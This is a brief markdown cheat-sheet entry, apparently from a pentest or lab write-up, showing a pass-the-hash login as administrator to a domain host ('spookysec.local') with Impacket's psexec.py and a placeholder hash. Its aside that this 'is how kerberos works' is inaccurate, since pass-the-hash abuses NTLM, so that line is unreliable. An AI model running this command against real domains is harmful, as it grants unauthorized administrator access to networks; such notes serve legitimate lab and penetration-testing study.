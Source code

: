 # PSExec

## Log in with PsExec by "Passing the hash"
`Note that this is not a vulnerability, this is how kerberos works`
```bash
psexec.py -hashes PUT_THE:HASH_HERE administrator@spookysec.local
get cmd
```